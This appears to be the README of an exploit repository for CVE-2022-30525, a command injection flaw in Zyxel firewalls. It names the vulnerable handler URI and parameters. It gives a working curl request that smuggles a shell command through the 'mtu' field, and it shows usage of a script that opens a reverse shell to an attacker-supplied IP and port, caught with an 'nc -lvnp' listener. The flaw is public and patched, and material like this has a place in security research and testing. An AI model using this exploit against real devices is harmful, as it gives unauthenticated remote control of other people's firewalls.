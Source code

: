 # CVE-2022-30525 (FIXED): Zyxel Firewall Unauthenticated Remote Command Injection

## CVE-2022-30525: Unauthenticated remote command injection(https://www.rapid7.com/blog/post/2022/05/12/cve-2022-30525-fixed-zyxel-firewall-unauthenticated-remote-command-injection/)
The affected models are vulnerable to unauthenticated and remote command injection via the administrative HTTP interface. Commands are executed as the nobody user. This vulnerability is exploited through the /ztp/cgi-bin/handler URI and is the result of passing unsanitized attacker input into the os.system method in lib_wan_settings.py. The vulnerable functionality is invoked in association with the setWanPortSt command. An attacker can inject arbitrary commands into the mtu or the data parameter. Belowis an example curl that will cause the firewall to execute ping 192.168.1.220:
'''
curl -v --insecure -X POST -H "Content-Type: application/json" -d '{"command":"setWanPortSt","proto":"dhcp","port":"4","vlan_tagged":"1","vlanid":"5","mtu":"; ping 192.168.1.220;","data":"hi"}' https://192.168.1.1/ztp/cgi-bin/handler
'''i


## Usages

'''shell
./cve-2022-30525.sh target-ip reverse-ip port

nc -lvnp port
'''
